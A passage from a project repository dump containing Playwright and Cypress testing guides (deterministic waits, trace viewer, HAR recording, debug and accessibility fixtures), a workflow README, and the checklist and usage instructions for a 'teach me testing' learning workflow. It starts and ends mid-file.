    // ✅ Good: Wait for visibility (accounts for animations)
    await expect(page.getByTestId('modal')).toBeVisible();
    await expect(page.getByRole('heading', { name: 'Modal Title' })).toBeVisible();
  });

  test('❌ Anti-Pattern: waitForLoadState("networkidle") in SPAs', async ({ page }) => {
    // ⚠️ Deprecated for SPAs (WebSocket connections never idle)
    // await page.goto('/dashboard')
    // await page.waitForLoadState('networkidle') // May timeout in SPAs

    // ✅ Better: Wait for specific API response
    const responsePromise = page.waitForResponse('**/api/dashboard');
    await page.goto('/dashboard');
    await responsePromise;

    await expect(page.getByText('Dashboard loaded')).toBeVisible();
  });
});
```

**Key Points**:

- Network-first: ALWAYS intercept before navigate (prevents race conditions)
- State changes: Wait for loading spinner detached (explicit load completion)
- Visibility vs presence: `toBeVisible()` accounts for animations, `toBeAttached()` doesn't
- Avoid networkidle: Unreliable in SPAs (WebSocket, polling connections)
- Explicit waits: Document exactly what we're waiting for

---

### Example 2: Deterministic Waiting Patterns (Event-Based, Not Time-Based)

**Context**: Replace all hard waits with observable event waits

**Implementation**:

```typescript
// tests/timing/deterministic-waits.spec.ts
import { test, expect } from '@playwright/test';

test.describe('Deterministic Waiting Patterns', () => {
  test('waitForResponse() with URL pattern', async ({ page }) => {
    const responsePromise = page.waitForResponse('**/api/products');

    await page.goto('/products');
    await responsePromise; // Deterministic (waits for exact API call)

    await expect(page.getByText('Products loaded')).toBeVisible();
  });

  test('waitForResponse() with predicate function', async ({ page }) => {
    const responsePromise = page.waitForResponse((resp) => resp.url().includes('/api/search') && resp.status() === 200);

    await page.goto('/search');
    await page.getByPlaceholder('Search').fill('laptop');
    await page.getByRole('button', { name: 'Search' }).click();

    await responsePromise; // Wait for successful search response

    await expect(page.getByTestId('search-results')).toBeVisible();
  });

  test('waitForFunction() for custom conditions', async ({ page }) => {
    await page.goto('/dashboard');

    // Wait for custom JavaScript condition
    await page.waitForFunction(() => {
      const element = document.querySelector('[data-testid="user-count"]');
      return element && parseInt(element.textContent || '0') > 0;
    });

    // User count now loaded
    await expect(page.getByTestId('user-count')).not.toHaveText('0');
  });

  test('waitFor() element state (attached, visible, hidden, detached)', async ({ page }) => {
    await page.goto('/products');

    // Wait for element to be attached to DOM
    await page.getByTestId('product-list').waitFor({ state: 'attached' });

    // Wait for element to be visible (animations complete)
    await page.getByTestId('product-list').waitFor({ state: 'visible' });

    // Perform action
    await page.getByText('Product A').click();

    // Wait for modal to be hidden (close animation complete)
    await page.getByTestId('modal').waitFor({ state: 'hidden' });
  });

  test('Cypress: cy.wait() with aliased intercepts', async () => {
    // Cypress example (not Playwright)
    /*
    cy.intercept('GET', '/api/products').as('getProducts')
    cy.visit('/products')
    cy.wait('@getProducts') // Deterministic wait for specific request

    cy.get('[data-testid="product-list"]').should('be.visible')
    */
  });
});
```

**Key Points**:

- `waitForResponse()`: Wait for specific API calls (URL pattern or predicate)
- `waitForFunction()`: Wait for custom JavaScript conditions
- `waitFor({ state })`: Wait for element state changes (attached, visible, hidden, detached)
- Cypress `cy.wait('@alias')`: Deterministic wait for aliased intercepts
- All waits are event-based (not time-based)

---

### Example 3: Timing Anti-Patterns (What NEVER to Do)

**Context**: Common timing mistakes that cause flakiness

**Problem Examples**:

```typescript
// tests/timing/anti-patterns.spec.ts
import { test, expect } from '@playwright/test';

test.describe('Timing Anti-Patterns to Avoid', () => {
  test('❌ NEVER: page.waitForTimeout() (arbitrary delay)', async ({ page }) => {
    await page.goto('/dashboard');

    // ❌ Bad: Arbitrary 3-second wait (flaky)
    // await page.waitForTimeout(3000)
    // Problem: Might be too short (CI slower) or too long (wastes time)

    // ✅ Good: Wait for observable event
    await page.waitForResponse('**/api/dashboard');
    await expect(page.getByText('Dashboard loaded')).toBeVisible();
  });

  test('❌ NEVER: cy.wait(number) without alias (arbitrary delay)', async () => {
    // Cypress example
    /*
    // ❌ Bad: Arbitrary delay
    cy.visit('/products')
    cy.wait(2000) // Flaky!

    // ✅ Good: Wait for specific request
    cy.intercept('GET', '/api/products').as('getProducts')
    cy.visit('/products')
    cy.wait('@getProducts') // Deterministic
    */
  });

  test('❌ NEVER: Multiple hard waits in sequence (compounding delays)', async ({ page }) => {
    await page.goto('/checkout');

    // ❌ Bad: Stacked hard waits (6+ seconds wasted)
    // await page.waitForTimeout(2000) // Wait for form
    // await page.getByTestId('email').fill('test@example.com')
    // await page.waitForTimeout(1000) // Wait for validation
    // await page.getByTestId('submit').click()
    // await page.waitForTimeout(3000) // Wait for redirect

    // ✅ Good: Event-based waits (no wasted time)
    await page.getByTestId('checkout-form').waitFor({ state: 'visible' });
    await page.getByTestId('email').fill('test@example.com');
    await page.waitForResponse('**/api/validate-email');
    await page.getByTestId('submit').click();
    await page.waitForURL('**/confirmation');
  });

  test('❌ NEVER: waitForLoadState("networkidle") in SPAs', async ({ page }) => {
    // ❌ Bad: Unreliable in SPAs (WebSocket connections never idle)
    // await page.goto('/dashboard')
    // await page.waitForLoadState('networkidle') // Timeout in SPAs!

    // ✅ Good: Wait for specific API responses
    await page.goto('/dashboard');
    await page.waitForResponse('**/api/dashboard');
    await page.waitForResponse('**/api/user');
    await expect(page.getByTestId('dashboard-content')).toBeVisible();
  });

  test('❌ NEVER: Sleep/setTimeout in tests', async ({ page }) => {
    await page.goto('/products');

    // ❌ Bad: Node.js sleep (blocks test thread)
    // await new Promise(resolve => setTimeout(resolve, 2000))

    // ✅ Good: Playwright auto-waits for element
    await expect(page.getByText('Products loaded')).toBeVisible();
  });
});
```

**Why These Fail**:

- **Hard waits**: Arbitrary timeouts (too short → flaky, too long → slow)
- **Stacked waits**: Compound delays (wasteful, unreliable)
- **networkidle**: Broken in SPAs (WebSocket/polling never idle)
- **Sleep**: Blocks execution (wastes time, doesn't solve race conditions)

**Better Approach**: Use event-based waits from examples above

---

## Async Debugging Techniques

### Technique 1: Promise Chain Analysis

```typescript
test('debug async waterfall with console logs', async ({ page }) => {
  console.log('1. Starting navigation...');
  await page.goto('/products');

  console.log('2. Waiting for API response...');
  const response = await page.waitForResponse('**/api/products');
  console.log('3. API responded:', response.status());

  console.log('4. Waiting for UI update...');
  await expect(page.getByText('Products loaded')).toBeVisible();
  console.log('5. Test complete');

  // Console output shows exactly where timing issue occurs
});
```

### Technique 2: Network Waterfall Inspection (DevTools)

```typescript
test('inspect network timing with trace viewer', async ({ page }) => {
  await page.goto('/dashboard');

  // Generate trace for analysis
  // npx playwright test --trace on
  // npx playwright show-trace trace.zip

  // In trace viewer:
  // 1. Check Network tab for API call timing
  // 2. Identify slow requests (>1s response time)
  // 3. Find race conditions (overlapping requests)
  // 4. Verify request order (dependencies)
});
```

### Technique 3: Trace Viewer for Timing Visualization

```typescript
test('use trace viewer to debug timing', async ({ page }) => {
  // Run with trace: npx playwright test --trace on

  await page.goto('/checkout');
  await page.getByTestId('submit').click();

  // In trace viewer, examine:
  // - Timeline: See exact timing of each action
  // - Snapshots: Hover to see DOM state at each moment
  // - Network: Identify slow/failed requests
  // - Console: Check for async errors

  await expect(page.getByText('Success')).toBeVisible();
});
```

---

## Race Condition Checklist

Before deploying tests:

- [ ] **Network-first pattern**: All routes intercepted BEFORE navigation (no race conditions)
- [ ] **Explicit waits**: Every navigation followed by `waitForResponse()` or state check
- [ ] **No hard waits**: Zero instances of `waitForTimeout()`, `cy.wait(number)`, `sleep()`
- [ ] **Element state waits**: Loading spinners use `waitFor({ state: 'detached' })`
- [ ] **Visibility checks**: Use `toBeVisible()` (accounts for animations), not just `toBeAttached()`
- [ ] **Response validation**: Wait for successful responses (`resp.ok()` or `status === 200`)
- [ ] **Trace viewer analysis**: Generate traces to identify timing issues (network waterfall, console errors)
- [ ] **CI/local parity**: Tests pass reliably in both environments (no timing assumptions)

## Integration Points

- **Used in workflows**: `*automate` (healing timing failures), `*test-review` (detect hard wait anti-patterns), `*framework` (configure timeout standards)
- **Related fragments**: `test-healing-patterns.md` (race condition diagnosis), `network-first.md` (interception patterns), `playwright-config.md` (timeout configuration), `visual-debugging.md` (trace viewer analysis)
- **Tools**: Playwright Inspector (`--debug`), Trace Viewer (`--trace on`), DevTools Network tab

_Source: Playwright timing best practices, network-first pattern from test-resources-for-ai, production race condition debugging_
```

## File: `src/agents/bmad-tea/resources/knowledge/visual-debugging.md`
```markdown
# Visual Debugging and Developer Ergonomics

## Principle

Fast feedback loops and transparent debugging artifacts are critical for maintaining test reliability and developer confidence. Visual debugging tools (trace viewers, screenshots, videos, HAR files) turn cryptic test failures into actionable insights, reducing triage time from hours to minutes.

## Rationale

**The Problem**: CI failures often provide minimal context—a timeout, a selector mismatch, or a network error—forcing developers to reproduce issues locally (if they can). This wastes time and discourages test maintenance.

**The Solution**: Capture rich debugging artifacts **only on failure** to balance storage costs with diagnostic value. Modern tools like Playwright Trace Viewer, Cypress Debug UI, and HAR recordings provide interactive, time-travel debugging that reveals exactly what the test saw at each step.

**Why This Matters**:

- Reduces failure triage time by 80-90% (visual context vs logs alone)
- Enables debugging without local reproduction
- Improves test maintenance confidence (clear failure root cause)
- Catches timing/race conditions that are hard to reproduce locally

## Pattern Examples

### Example 1: Playwright Trace Viewer Configuration (Production Pattern)

**Context**: Capture traces on first retry only (balances storage and diagnostics)

**Implementation**:

```typescript
// playwright.config.ts
import { defineConfig } from '@playwright/test';

export default defineConfig({
  use: {
    // Visual debugging artifacts (space-efficient)
    trace: 'on-first-retry', // Only when test fails once
    screenshot: 'only-on-failure', // Not on success
    video: 'retain-on-failure', // Delete on pass

    // Context for debugging
    baseURL: process.env.BASE_URL || 'http://localhost:3000',

    // Timeout context
    actionTimeout: 15_000, // 15s for clicks/fills
    navigationTimeout: 30_000, // 30s for page loads
  },

  // CI-specific artifact retention
  reporter: [
    ['html', { outputFolder: 'playwright-report', open: 'never' }],
    ['junit', { outputFile: 'results.xml' }],
    ['list'], // Console output
  ],

  // Failure handling
  retries: process.env.CI ? 2 : 0, // Retry in CI to capture trace
  workers: process.env.CI ? 1 : undefined,
});
```

**Opening and Using Trace Viewer**:

```bash
# After test failure in CI, download trace artifact
# Then open locally:
npx playwright show-trace path/to/trace.zip

# Or serve trace viewer:
npx playwright show-report
```

**Key Features to Use in Trace Viewer**:

1. **Timeline**: See each action (click, navigate, assertion) with timing
2. **Snapshots**: Hover over timeline to see DOM state at that moment
3. **Network Tab**: Inspect all API calls, headers, payloads, timing
4. **Console Tab**: View console.log/error messages
5. **Source Tab**: See test code with execution markers
6. **Metadata**: Browser, OS, test duration, screenshots

**Why This Works**:

- `on-first-retry` avoids capturing traces for flaky passes (saves storage)
- Screenshots + video give visual context without trace overhead
- Interactive timeline makes timing issues obvious (race conditions, slow API)

---

### Example 2: HAR File Recording for Network Debugging

**Context**: Capture all network activity for reproducible API debugging

**Implementation**:

```typescript
// tests/e2e/checkout-with-har.spec.ts
import { test, expect } from '@playwright/test';
import path from 'path';

test.describe('Checkout Flow with HAR Recording', () => {
  test('should complete payment with full network capture', async ({ page, context }) => {
    // Start HAR recording BEFORE navigation
    await context.routeFromHAR(path.join(__dirname, '../fixtures/checkout.har'), {
      url: '**/api/**', // Only capture API calls
      update: true, // Update HAR if file exists
    });

    await page.goto('/checkout');

    // Interact with page
    await page.getByTestId('payment-method').selectOption('credit-card');
    await page.getByTestId('card-number').fill('4242424242424242');
    await page.getByTestId('submit-payment').click();

    // Wait for payment confirmation
    await expect(page.getByTestId('success-message')).toBeVisible();

    // HAR file saved to fixtures/checkout.har
    // Contains all network requests/responses for replay
  });
});
```

**Using HAR for Deterministic Mocking**:

```typescript
// tests/e2e/checkout-replay-har.spec.ts
import { test, expect } from '@playwright/test';
import path from 'path';

test('should replay checkout flow from HAR', async ({ page, context }) => {
  // Replay network from HAR (no real API calls)
  await context.routeFromHAR(path.join(__dirname, '../fixtures/checkout.har'), {
    url: '**/api/**',
    update: false, // Read-only mode
  });

  await page.goto('/checkout');

  // Same test, but network responses come from HAR file
  await page.getByTestId('payment-method').selectOption('credit-card');
  await page.getByTestId('card-number').fill('4242424242424242');
  await page.getByTestId('submit-payment').click();

  await expect(page.getByTestId('success-message')).toBeVisible();
});
```

**Key Points**:

- **`update: true`** records new HAR or updates existing (for flaky API debugging)
- **`update: false`** replays from HAR (deterministic, no real API)
- Filter by URL pattern (`**/api/**`) to avoid capturing static assets
- HAR files are human-readable JSON (easy to inspect/modify)

**When to Use HAR**:

- Debugging flaky tests caused by API timing/responses
- Creating deterministic mocks for integration tests
- Analyzing third-party API behavior (Stripe, Auth0)
- Reproducing production issues locally (record HAR in staging)

---

### Example 3: Custom Artifact Capture (Console Logs + Network on Failure)

**Context**: Capture additional debugging context automatically on test failure

**Implementation**:

```typescript
// playwright/support/fixtures/debug-fixture.ts
import { test as base } from '@playwright/test';
import fs from 'fs';
import path from 'path';

type DebugFixture = {
  captureDebugArtifacts: () => Promise<void>;
};

export const test = base.extend<DebugFixture>({
  captureDebugArtifacts: async ({ page }, use, testInfo) => {
    const consoleLogs: string[] = [];
    const networkRequests: Array<{ url: string; status: number; method: string }> = [];

    // Capture console messages
    page.on('console', (msg) => {
      consoleLogs.push(`[${msg.type()}] ${msg.text()}`);
    });

    // Capture network requests
    page.on('request', (request) => {
      networkRequests.push({
        url: request.url(),
        method: request.method(),
        status: 0, // Will be updated on response
      });
    });

    page.on('response', (response) => {
      const req = networkRequests.find((r) => r.url === response.url());
      if (req) req.status = response.status();
    });

    await use(async () => {
      // This function can be called manually in tests
      // But it also runs automatically on failure via afterEach
    });

    // After test completes, save artifacts if failed
    if (testInfo.status !== testInfo.expectedStatus) {
      const artifactDir = path.join(testInfo.outputDir, 'debug-artifacts');
      fs.mkdirSync(artifactDir, { recursive: true });

      // Save console logs
      fs.writeFileSync(path.join(artifactDir, 'console.log'), consoleLogs.join('\n'), 'utf-8');

      // Save network summary
      fs.writeFileSync(path.join(artifactDir, 'network.json'), JSON.stringify(networkRequests, null, 2), 'utf-8');

      console.log(`Debug artifacts saved to: ${artifactDir}`);
    }
  },
});
```

**Usage in Tests**:

```typescript
// tests/e2e/payment-with-debug.spec.ts
import { test, expect } from '../support/fixtures/debug-fixture';

test('payment flow captures debug artifacts on failure', async ({ page, captureDebugArtifacts }) => {
  await page.goto('/checkout');

  // Test will automatically capture console + network on failure
  await page.getByTestId('submit-payment').click();
  await expect(page.getByTestId('success-message')).toBeVisible({ timeout: 5000 });

  // If this fails, console.log and network.json saved automatically
});
```

**CI Integration (GitHub Actions)**:

```yaml
# .github/workflows/e2e.yml
name: E2E Tests with Artifacts
on: [push, pull_request]

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4
        with:
          node-version-file: '.nvmrc'

      - name: Install dependencies
        run: npm ci

      - name: Run Playwright tests
        run: npm run test:e2e
        continue-on-error: true # Capture artifacts even on failure

      - name: Upload test artifacts on failure
        if: failure()
        uses: actions/upload-artifact@v4
        with:
          name: playwright-artifacts
          path: |
            test-results/
            playwright-report/
          retention-days: 30
```

**Key Points**:

- Fixtures automatically capture context without polluting test code
- Only saves artifacts on failure (storage-efficient)
- CI uploads artifacts for post-mortem analysis
- `continue-on-error: true` ensures artifact upload even when tests fail

---

### Example 4: Accessibility Debugging Integration (axe-core in Trace Viewer)

**Context**: Catch accessibility regressions during visual debugging

**Implementation**:

```typescript
// playwright/support/fixtures/a11y-fixture.ts
import { test as base } from '@playwright/test';
import AxeBuilder from '@axe-core/playwright';

type A11yFixture = {
  checkA11y: () => Promise<void>;
};

export const test = base.extend<A11yFixture>({
  checkA11y: async ({ page }, use) => {
    await use(async () => {
      // Run axe accessibility scan
      const results = await new AxeBuilder({ page }).analyze();

      // Attach results to test report (visible in trace viewer)
      if (results.violations.length > 0) {
        console.log(`Found ${results.violations.length} accessibility violations:`);
        results.violations.forEach((violation) => {
          console.log(`- [${violation.impact}] ${violation.id}: ${violation.description}`);
          console.log(`  Help: ${violation.helpUrl}`);
        });

        throw new Error(`Accessibility violations found: ${results.violations.length}`);
      }
    });
  },
});
```

**Usage with Visual Debugging**:

```typescript
// tests/e2e/checkout-a11y.spec.ts
import { test, expect } from '../support/fixtures/a11y-fixture';

test('checkout page is accessible', async ({ page, checkA11y }) => {
  await page.goto('/checkout');

  // Verify page loaded
  await expect(page.getByRole('heading', { name: 'Checkout' })).toBeVisible();

  // Run accessibility check
  await checkA11y();

  // If violations found, test fails and trace captures:
  // - Screenshot showing the problematic element
  // - Console log with violation details
  // - Network tab showing any failed resource loads
});
```

**Trace Viewer Benefits**:

- **Screenshot shows visual context** of accessibility issue (contrast, missing labels)
- **Console tab shows axe-core violations** with impact level and helpUrl
- **DOM snapshot** allows inspecting ARIA attributes at failure point
- **Network tab** reveals if icon fonts or images failed (common a11y issue)

**Cypress Equivalent**:

```javascript
// cypress/support/commands.ts
import 'cypress-axe';

Cypress.Commands.add('checkA11y', (context = null, options = {}) => {
  cy.injectAxe(); // Inject axe-core
  cy.checkA11y(context, options, (violations) => {
    if (violations.length) {
      cy.task('log', `Found ${violations.length} accessibility violations`);
      violations.forEach((violation) => {
        cy.task('log', `- [${violation.impact}] ${violation.id}: ${violation.description}`);
      });
    }
  });
});

// tests/e2e/checkout-a11y.cy.ts
describe('Checkout Accessibility', () => {
  it('should have no a11y violations', () => {
    cy.visit('/checkout');
    cy.injectAxe();
    cy.checkA11y();
    // On failure, Cypress UI shows:
    // - Screenshot of page
    // - Console log with violation details
    // - Network tab with API calls
  });
});
```

**Key Points**:

- Accessibility checks integrate seamlessly with visual debugging
- Violations are captured in trace viewer/Cypress UI automatically
- Provides actionable links (helpUrl) to fix issues
- Screenshots show visual context (contrast, layout)

---

### Example 5: Time-Travel Debugging Workflow (Playwright Inspector)

**Context**: Debug tests interactively with step-through execution

**Implementation**:

```typescript
// tests/e2e/checkout-debug.spec.ts
import { test, expect } from '@playwright/test';

test('debug checkout flow step-by-step', async ({ page }) => {
  // Set breakpoint by uncommenting this:
  // await page.pause()

  await page.goto('/checkout');

  // Use Playwright Inspector to:
  // 1. Step through each action
  // 2. Inspect DOM at each step
  // 3. View network calls per action
  // 4. Take screenshots manually

  await page.getByTestId('payment-method').selectOption('credit-card');

  // Pause here to inspect form state
  // await page.pause()

  await page.getByTestId('card-number').fill('4242424242424242');
  await page.getByTestId('submit-payment').click();

  await expect(page.getByTestId('success-message')).toBeVisible();
});
```

**Running with Inspector**:

```bash
# Open Playwright Inspector (GUI debugger)
npx playwright test --debug

# Or use headed mode with slowMo
npx playwright test --headed --slow-mo=1000

# Debug specific test
npx playwright test checkout-debug.spec.ts --debug

# Set environment variable for persistent debugging
PWDEBUG=1 npx playwright test
```

**Inspector Features**:

1. **Step-through execution**: Click "Next" to execute one action at a time
2. **DOM inspector**: Hover over elements to see selectors
3. **Network panel**: See API calls with timing
4. **Console panel**: View console.log output
5. **Pick locator**: Click element in browser to get selector
6. **Record mode**: Record interactions to generate test code

**Common Debugging Patterns**:

```typescript
// Pattern 1: Debug selector issues
test('debug selector', async ({ page }) => {
  await page.goto('/dashboard');
  await page.pause(); // Inspector opens

  // In Inspector console, test selectors:
  // page.getByTestId('user-menu') ✅
  // page.getByRole('button', { name: 'Profile' }) ✅
  // page.locator('.btn-primary') ❌ (fragile)
});

// Pattern 2: Debug timing issues
test('debug network timing', async ({ page }) => {
  await page.goto('/dashboard');

  // Set up network listener BEFORE interaction
  const responsePromise = page.waitForResponse('**/api/users');
  await page.getByTestId('load-users').click();

  await page.pause(); // Check network panel for timing

  const response = await responsePromise;
  expect(response.status()).toBe(200);
});

// Pattern 3: Debug state changes
test('debug state mutation', async ({ page }) => {
  await page.goto('/cart');

  // Check initial state
  await expect(page.getByTestId('cart-count')).toHaveText('0');

  await page.pause(); // Inspect DOM

  await page.getByTestId('add-to-cart').click();

  await page.pause(); // Inspect DOM again (compare state)

  await expect(page.getByTestId('cart-count')).toHaveText('1');
});
```

**Key Points**:

- `page.pause()` opens Inspector at that exact moment
- Inspector shows DOM state, network activity, console at pause point
- "Pick locator" feature helps find robust selectors
- Record mode generates test code from manual interactions

---

## Visual Debugging Checklist

Before deploying tests to CI, ensure:

- [ ] **Artifact configuration**: `trace: 'on-first-retry'`, `screenshot: 'only-on-failure'`, `video: 'retain-on-failure'`
- [ ] **CI artifact upload**: GitHub Actions/GitLab CI configured to upload `test-results/` and `playwright-report/`
- [ ] **HAR recording**: Set up for flaky API tests (record once, replay deterministically)
- [ ] **Custom debug fixtures**: Console logs + network summary captured on failure
- [ ] **Accessibility integration**: axe-core violations visible in trace viewer
- [ ] **Trace viewer docs**: README explains how to open traces locally (`npx playwright show-trace`)
- [ ] **Inspector workflow**: Document `--debug` flag for interactive debugging
- [ ] **Storage optimization**: Artifacts deleted after 30 days (CI retention policy)

## Integration Points

- **Used in workflows**: `*framework` (initial setup), `*ci` (artifact upload), `*test-review` (validate artifact config)
- **Related fragments**: `playwright-config.md` (artifact configuration), `ci-burn-in.md` (CI artifact upload), `test-quality.md` (debugging best practices)
- **Tools**: Playwright Trace Viewer, Cypress Debug UI, axe-core, HAR files

_Source: Playwright official docs, Murat testing philosophy (visual debugging manifesto), enterprise production debugging patterns_
```

## File: `src/workflows/testarch/README.md`
```markdown
# TEA Workflow Step Files

This folder contains the Test Architect (TEA) workflows converted to step-file architecture for strict LLM compliance. Each workflow is tri-modal (create, edit, validate) and uses small, ordered step files instead of a single monolithic instruction file.

## Why Step Files

- Enforces sequential execution and prevents improvisation
- Keeps context small and focused per step
- Makes validation and edits deterministic

## Standard Layout (per workflow)

```
<workflow>/
├── workflow.md             # Mode routing (create / edit / validate)
├── workflow-plan.md        # Design reference for step order and intent
├── workflow.yaml           # Installer metadata
├── instructions.md         # Short entrypoint / summary
├── checklist.md            # Validation criteria for outputs
├── steps-c/                # Create mode steps
├── steps-e/                # Edit mode steps
├── steps-v/                # Validate mode steps
├── templates/              # Output templates (if applicable)
└── validation-report-*.md  # Validator outputs (latest run)
```

## Modes

- **Create (steps-c/):** Primary execution flow to generate outputs
- **Edit (steps-e/):** Structured edits to existing outputs
- **Validate (steps-v/):** Checklist-based validation of outputs

## Execution Rules (Summary)

- Load **one step at a time**. Do not preload future steps.
- Follow the **MANDATORY SEQUENCE** exactly in each step.
- Do not skip steps, reorder, or improvise.
- If a step writes outputs, do so **before** loading the next step.

## Step Naming Conventions

- `step-01-*.md` is the init step (no menus unless explicitly required).
- `step-01b-*.md` is a continuation/resume step if the workflow is continuable.
- `step-0X-*.md` are sequential create-mode steps.
- `steps-v/step-01-validate.md` is the validate mode entrypoint.
- `steps-e/step-01-assess.md` is the edit mode entrypoint.

## Validation

- Each workflow has a latest `validation-report-*.md` in its folder.
- Validation uses the BMad Builder workflow validator (workflow-builder).
- The goal is 100% compliance with no warnings.

## References

- Step-file architecture: `brain/knowledge/docs_legacy/explanation/step-file-architecture.md`
- Subagent patterns: `brain/knowledge/docs_legacy/explanation/subagent-architecture.md`

## TEA Workflows

- test-design
- automate
- atdd
- test-review
- trace
- framework
- ci
- nfr-assess

## Notes

- `workflow.md` is the canonical entrypoint. `instructions.md` is a short summary for quick context.
- Output files typically use `{test_artifacts}` or `{project-root}` variables.
- If a workflow produces multiple artifacts (e.g., system-level vs epic-level), the step file will specify which templates and output paths to use.
```

## File: `src/workflows/testarch/bmad-teach-me-testing/SKILL.md`
```markdown
---
name: bmad-teach-me-testing
description: 'Teach testing progressively through structured sessions. Use when user says "lets learn testing" or "I want to study test practices"'
---

Follow the instructions in [workflow.md](../bmad_repo/workflow.md).
```

## File: `src/workflows/testarch/bmad-teach-me-testing/bmad-skill-manifest.yaml`
```yaml
type: skill
```

## File: `src/workflows/testarch/bmad-teach-me-testing/checklist.md`
```markdown
# Teach Me Testing - Quality Checklist

## Workflow Quality Standards

Use this checklist to validate the teaching workflow meets quality standards.

---

## Foundation Quality

- [ ] **workflow.md** exists with proper frontmatter
- [ ] Tri-modal routing logic present (Create/Edit/Validate)
- [ ] Configuration loading references correct module (TEA)
- [ ] First step path correct (`./steps-c/step-01-init.md`)
- [ ] Folder structure complete (steps-c/, steps-e/, steps-v/, data/, templates/)

---

## Template Quality

- [ ] **progress-template.yaml** has complete schema
- [ ] All 7 sessions defined with proper structure
- [ ] Session status tracking fields present (not-started/in-progress/completed)
- [ ] stepsCompleted array for continuation tracking
- [ ] **session-notes-template.md** has all required sections
- [ ] **certificate-template.md** includes all 7 sessions

---

## Step File Quality (CREATE mode)

### Initialization Steps

- [ ] **step-01-init.md** checks for existing progress file
- [ ] Continuation detection logic works correctly
- [ ] **step-01b-continue.md** loads progress and routes to session menu
- [ ] Progress dashboard displays completion status

### Assessment Step

- [ ] **step-02-assess.md** gathers role, experience, goals
- [ ] Validation for role (QA/Dev/Lead/VP)
- [ ] Validation for experience (beginner/intermediate/experienced)
- [ ] Assessment data written to progress file

### Session Menu Hub

- [ ] **step-03-session-menu.md** displays all 7 sessions
- [ ] Completion indicators shown (✓ completed, 🔄 in-progress, ⬜ not-started)
- [ ] Branching logic routes to selected session (1-7)
- [ ] Exit logic (X) routes to completion if all done, otherwise saves and exits

### Session Steps (1-7)

- [ ] Each session loads relevant TEA docs just-in-time
- [ ] Teaching content presented (mostly autonomous)
- [ ] Quiz validation with ≥70% threshold
- [ ] Session notes artifact generated
- [ ] Progress file updated (status, score, artifact path)
- [ ] Returns to session menu hub after completion

### Completion Step

- [ ] **step-05-completion.md** verifies all 7 sessions complete
- [ ] Certificate generated with accurate data
- [ ] Final progress file update (certificate_generated: true)
- [ ] Congratulations message shown

---

## Data File Quality

- [ ] **curriculum.yaml** defines all 7 sessions
- [ ] **role-paths.yaml** maps role customizations
- [ ] **session-content-map.yaml** references TEA brain/knowledge/docs_legacy/fragments/URLs correctly
- [ ] **quiz-questions.yaml** has questions for all sessions
- [ ] **tea-resources-index.yaml** has complete documentation index

---

## Content Quality

### TEA Documentation Integration

- [ ] Local file paths correct (`/brain/knowledge/docs_legacy/*.md`, `/src/agents/bmad-tea/resources/knowledge/*.md`)
- [ ] Online URLs correct (<https://bmad-code-org.github.io/...>)
- [ ] GitHub fragment links correct
- [ ] Triple reference system (local + online + GitHub) implemented

### Role-Based Content

- [ ] QA examples present (practical testing focus)
- [ ] Dev examples present (integration/TDD focus)
- [ ] Lead examples present (architecture/patterns focus)
- [ ] VP examples present (strategy/metrics focus)

### Quiz Quality

- [ ] Questions test understanding, not memorization
- [ ] 3-5 questions per session
- [ ] Mix of difficulty levels
- [ ] Clear correct answers with explanations

---

## Error Handling

- [ ] Corrupted progress file detection
- [ ] Backup and recovery options
- [ ] Missing TEA docs fallback (Web-Browsing)
- [ ] Quiz failure recovery (review or continue)
- [ ] Session interruption handling (auto-save)

---

## User Experience

- [ ] Clear navigation instructions
- [ ] Progress visibility (completion percentage, next recommended)
- [ ] Auto-save after each session
- [ ] Resume capability works seamlessly
- [ ] Exit options clear at all decision points

---

## State Management

- [ ] stepsCompleted array updated correctly
- [ ] Session tracking accurate (status, dates, scores)
- [ ] Completion percentage calculated correctly
- [ ] Next recommended session logic works
- [ ] lastStep and lastContinued timestamps updated

---

## Validation Mode

- [ ] **step-v-01-validate.md** checks all quality standards
- [ ] Generates validation report
- [ ] Identifies issues clearly
- [ ] Provides remediation suggestions

---

## Edit Mode

- [ ] **step-e-01-assess-workflow.md** identifies what to edit
- [ ] **step-e-02-apply-edits.md** applies modifications safely
- [ ] Preserves workflow integrity during edits

---

## Documentation

- [ ] **instructions.md** clear and complete
- [ ] **checklist.md** (this file) comprehensive
- [ ] README (if present) accurate
- [ ] Inline comments in complex logic

---

## Performance

- [ ] Just-in-time loading (not loading all docs upfront)
- [ ] Session steps complete in reasonable time (<5 min)
- [ ] Quiz validation fast (<1 min)
- [ ] Progress file writes efficient

---

## Security

- [ ] No hardcoded credentials
- [ ] File paths use variables
- [ ] Progress files private to user
- [ ] No sensitive data in session notes

---

## Completion Criteria

✅ **Workflow is ready for deployment when:**

- All checkboxes above are checked
- All step files exist and follow standards
- All templates present and correct
- Data files complete and accurate
- Error handling robust
- User experience smooth
- Documentation complete

---

**Validation Date:** **\*\***\_\_\_**\*\***
**Validated By:** **\*\***\_\_\_**\*\***
**Issues Found:** **\*\***\_\_\_**\*\***
**Status:** ⬜ Ready for Production | ⬜ Needs Revisions
```

## File: `src/workflows/testarch/bmad-teach-me-testing/instructions.md`
```markdown
# Teach Me Testing - Usage Instructions

## Overview

The Teach Me Testing workflow is a multi-session learning companion that teaches testing progressively through 7 structured sessions with state persistence. Designed for self-paced learning over 1-2 weeks.

## Who Should Use This

- **New QA Engineers:** Complete onboarding in testing fundamentals
- **Developers:** Learn testing from an integration perspective
- **Team Leads:** Understand architecture patterns and team practices
- **VPs/Managers:** Grasp testing strategy and quality metrics

## How to Run

### Starting Fresh

```bash
# From TEA module location
cd /path/to/bmad-method-test-architecture-enterprise

# Run the workflow
bmad run teach-me-testing
```

Or invoke through TEA agent menu:

```bash
bmad agent tea
# Select [TMT] Teach Me Testing
```

### Continuing Existing Progress

The workflow automatically detects existing progress and resumes where you left off. Your progress is saved at:

- `{test_artifacts}/teaching-progress/{your-name}-tea-progress.yaml`

## Workflow Structure

### 7 Sessions

1. **Quick Start (30 min)** - TEA Lite intro, run automate workflow
2. **Core Concepts (45 min)** - Risk-based testing, DoD, philosophy
3. **Architecture (60 min)** - Fixtures, network patterns, framework
4. **Test Design (60 min)** - Risk assessment workflow
5. **ATDD & Automate (60 min)** - ATDD + Automate workflows
6. **Quality & Trace (45 min)** - Test review + Trace workflows
7. **Advanced Patterns (ongoing)** - Menu-driven knowledge fragment exploration

### Non-Linear Learning

- Jump to any session based on your experience level
- Beginners: Start at Session 1
- Intermediate: Skip to Session 3-6
- Experienced: Jump to Session 7 (Advanced)

### Session Flow

Each session follows this pattern:

